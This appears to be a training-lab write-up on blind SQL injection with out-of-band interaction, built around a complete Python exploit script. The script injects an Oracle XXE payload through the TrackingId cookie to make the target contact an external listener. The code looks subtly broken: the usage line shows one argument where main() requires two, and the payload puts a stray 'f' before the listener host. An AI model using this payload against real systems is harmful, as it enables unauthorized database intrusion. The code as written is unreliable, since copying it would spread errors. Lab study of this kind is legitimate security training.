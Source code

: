 ```yaml
---
title: 'SQLi Lab 16'
description: 'Blind SQL injection with out-of-band interaction using Burp Collaborator'
---
```



## Blind SQL injection with out-of-band interaction

<div style="text-align: justify;">
  This lab demonstrates a blind SQL injection vulnerability where the application's tracking cookie (`TrackingId`) is used in an asynchronous SQL query. The query does not affect the application's response, so traditional error-based or content-based techniques do not work. Instead, out-of-band (OOB) interactions can be triggered by causing the database to initiate DNS or HTTP requests to an external server, such as Burp Collaborator.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to SQL injection.
- Construct an Oracle `EXTRACTVALUE` XML payload to trigger a request to an external listener.
- Use the Burp Collaborator public server or another OOB listener to detect DNS/HTTP interactions.
- The lab is solved once a request from the target is observed by your listener.
- This method simulates real-world scenarios where blind SQL injection can exfiltrate data asynchronously.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys
import requests
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Proxy through Burp (use {} if not needed)
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}


def grab_initial_cookies(url: str):
    """Fetch initial cookies from target lab."""
    r = requests.get(url, verify=False, proxies=proxies, timeout=15)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to grab TrackingId/session cookie.")
        sys.exit(1)

    return tracking_id, session_cookie


def build_payload(listener_url: str) -> str:
    """
    Build an Oracle XXE payload that triggers OOB DNS/HTTP lookup
    to the given listener_url.
    """
    return (
        f"'||(SELECT EXTRACTVALUE(xmltype('<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM \"http://f{listener_url}/\"> %25remote%3b]>'),'/l') FROM dual)-- -"
    )


def send_payload(url: str, tracking_id: str, session_cookie: str, payload_suffix: str):
    """Send malicious TrackingId cookie with OOB payload."""
    cookies = {
        "TrackingId": tracking_id+payload_suffix,
        "session": session_cookie
    }
    print("[*] Sending payload...")
    try:
        r = requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=10)
        print(f"[+] HTTP {r.status_code} received.")
    except requests.exceptions.RequestException as e:
        print(f"[!] Request failed: {e}")


def main():
    if len(sys.argv) != 3:
        print("Usage: python oob_sqli_exploit.py <url> <listener-url>")
        sys.exit(1)

    url = sys.argv[1].rstrip("/")
    listener = sys.argv[2].rstrip("/")

    print(f"[*] Target: {url}")
    print(f"[*] Listener: {listener}")

    tracking_id, session_cookie = grab_initial_cookies(url)
    print(f"[*] Got TrackingId: {tracking_id}")
    print(f"[*] Got session: {session_cookie}")

    payload_suffix = build_payload(listener)
    send_payload(url, tracking_id, session_cookie, payload_suffix)

    print("\n[*] Payload sent!")
    print("    → Now check your listener (Collaborator / Webhook.site / RequestBin).")
    print("    → If you see a request from the target, the lab is solved ✅.")


if __name__ == "__main__":
    main()
```